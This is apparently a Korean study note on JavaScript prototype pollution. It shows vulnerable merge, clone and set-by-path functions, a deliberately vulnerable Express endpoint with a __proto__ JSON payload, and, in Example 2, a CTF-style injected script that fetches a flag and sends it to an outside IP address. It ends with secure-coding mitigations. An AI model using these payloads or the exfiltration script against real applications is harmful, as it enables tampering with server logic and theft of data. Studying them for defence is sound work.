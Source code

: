 [[JS]]
[참고1](!https://velog.io/@ehgks0000/Prototype-Pollution)



# Prototype Pollution
- JavaScript 객체 프로토타입 체인에서 발생할 수 있는 보안 취약점
- 공격자가 임의적으로 웹 애플리케이션의 JavaScript 객체 프로토타입을 수정할 수 있게 되면 발생
- `__proto__`는 `Object.prototype`과 같다는 것을 이용해 다른 객체 속성에 영향을 주는 방식

# 발생 원인
JavaScript에서 객체는 프로토타입을 기반으로 상속을 수행
객체의 프로퍼티나 메서드를 찾을 때 해당 객체에 없으면 프로토타입 체인을 따라 부모 객체로 검색하게 되는데, 
공격자가 이러한 프로토타입 체인을 조작하여 애플리케이션의 기본 동작을 변경할 수 있게 함

```js
const obj1 = {};
console.log(obj1.__proto__ === Object.prototype); // true
obj1.__proto__.polluted = 1;
const obj2 = {};
console.log(obj2.polluted); // 1
```

### 객체 Prototype Pollution이 일어날 수 있는 주요 3가지 패턴
- 속성 설정
```js
function isObject(obj) {
  return obj !== null && typeof obj === 'object';
}

function setValue(obj, key, value) {
  const keylist = key.split('.');
  const e = keylist.shift();
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {};
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}

const obj1 = {};
setValue(obj1, "__proto__.polluted", 1);
const obj2 = {};
console.log(obj2.polluted); // 1
```

- 객체 병합
```js
function merge(a, b) {
  for (let key in b) {
    if (isObject(a[key]) && isObject(b[key])) {
      merge(a[key], b[key]);
    } else {
      a[key] = b[key];
    }
  }
  return a;
}

const obj1 = {a: 1, b:2};
const obj2 = JSON.parse('{"__proto__":{"polluted":1}}');
merge(obj1, obj2);
const obj3 = {};
console.log(obj3.polluted); // 1
```

- 객체 복사
```js
function clone(obj) {
  return merge({}, obj);
}

const obj1 = JSON.parse('{"__proto__":{"polluted":1}}');
const obj2 = clone(obj1);
const obj3 = {};
console.log(obj3.polluted); // 1
```


# 예시1
- 외부에서 전달받은 JSON을 그대로 복사
```js
function isObject(obj) {
  return obj !== null && typeof obj === 'object';
}

function merge(a, b) {
  for (let key in b) {
    // 이 부분에서 key가 __proto__ 일 때에 건너뛰어야 한다.
    if (isObject(a[key]) && isObject(b[key])) {
      merge(a[key], b[key]);
    } else {
      a[key] = b[key];
    }
  }
  return a;
}

function clone(obj) {
  return merge({}, obj);
}

const express = require('express');
const app = express();
app.use(express.json());
app.post('/', (req, res) => {
  // 여기에서 악의적인 JSON을 그대로 복사함으로써 객체의 프로토타입 오염이 일어난다
  const obj = clone(req.body);
  const r = {};
  // 프로토타입 오염에 의해 r.status가 변조된다.
  const status = r.status ? r.status: 'NG';
  res.send(status)
});
app.listen(1234);
```

- `__proto__`속성을 갖는 JSON을 서버에 전달해 공격
```js
const http = require('http');
const client = http.request({
  host: 'localhost',
  port: 1234,
  method: 'POST'
}, (res) => {
  res.on('data', (chunk) => {
    console.log(chunk.toString());
  });
});
const data = '{"__proto__":{"status":"polluted"}}';
client.setHeader('content-type', 'application/json');
client.end(data);
```


# 예시2
```js
<script> 
fetch('http://2023whs.arang.kr:9200/prototype_pollution.php').then(response => response.text()).then(data => { 
	let flag = data.match(/flag{.*?}/)[0]; 
	fetch('http://211.250.216.249:7444/receive_flag?flag=' + flag); 
});
</script>
```



# 시큐어 코딩
- Object.freeze : `Object.prototype`이나 `Object`를 `freeze`하여 변경을 불가능하게 하는 방법. 부작용으로 정상적인 모듈임에도 이 조치로 동작하지 않을 수 도 있음
- JSON schema : avj 모듈 등을 사용해 JSON을 검증
- Map : key/value를 저장하는 객체를 사용하지 않고 `Map`을 사용. ES5 이전 환경에서는 불가